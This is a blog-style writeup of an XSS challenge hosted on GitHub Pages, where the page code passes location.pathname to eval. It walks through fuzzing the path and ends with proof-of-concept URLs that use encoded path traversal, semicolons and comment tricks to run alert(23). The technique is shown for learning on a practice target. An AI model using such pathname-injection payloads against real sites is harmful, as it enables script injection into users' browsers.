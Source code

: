 ```yaml
---
layout: post
title:  alert(23) to win - eval(location.pathname) - writeup
tags: [xss]
---
```


while surfing the internet for some sec news, a xss challenge came across.
challenge address `https://renwax23.github.io/X/chal/oct22/`

It's on github. So there is no backend, all the codes are in the front. Let's see it.

```javascript

if(/\/chal\/oct22\//.test(location.pathname.substr(0,15))){

eval(location.pathname)

}
```
The logic is simple. After checking the location.pathname, pathname will be evaled. So this is the sink.

## round one
https://renwax23.github.io/X/chal/oct22/ 
Check the console. We see a syntax error.
`
Uncaught SyntaxError: Invalid regular expression flags
    at (index):23
`
So i think that the key is regex. After reading some docs about regex, I couldn't get an answer.

I tried some random stuff.`-` `&` `?` `\` , and get 404.

round one failed.

## round two
So I need to get code 200 and insert some code in the url.
But how? Some are urlencoded. Some will return code 404. I fuzzed the url to see what I can insert while it still returns 200. No luck.
https://renwax23.github.io/X/chal/oct22//
I add a `/` in the url. And it returned 200. So I can insert `/` as I need.
https://renwax23.github.io//X/chal/oct22/
I add a `/` in the front. Checking the console, there's no syntax error. I thought that it's the right way. So I need to get some line break. Because `//` comment the code. Trying '%0d%0a' and `\u2028` (from prompt(1) to win), they are urlencoded.

I also tried `a/../`. But chrome will short it. 
Trying some urlencode. And `https://renwax23.github.io//X/chal/oct22/a/..%2f` returns code 200.
Eureka!
Now I can inject code into pathname and I still get code 200.

## round three
But there's still no alert.
https://renwax23.github.io/X//chal/oct22/a/..%2f
So I moved `/`. New error.
```
Uncaught SyntaxError: Unexpected token '.'
```
Not regex syntax error.

So now I need to get the syntax right. After some trying, I get a new error message.
https://renwax23.github.io/X//chal/oct22/a;//..%2f
```
Uncaught ReferenceError: chal is not defined
```
So we need to need to define `chal`. And in javascript, you can use before define. So we can use `var` to define. I tried `var chal`. Space will be %20. Syntax error.
We can use comment `/**/` to seperate.

In the end, we get the alert.
poc:
https://renwax23.github.io/X//chal/oct22/-alert(23);var/*/..%2f/..%2f/*/chal=1;var/*/..%2f/..%2f/..%2f/*/oct22=2//..%2f/..%2f

Sereval hours later. I tried again. And get a less one.
https://renwax23.github.io/X//chal/oct22/alert(23);var/*/..%2f../*/chal,oct22//..%2f..

Really interesting challenge. Thanks to the author. 

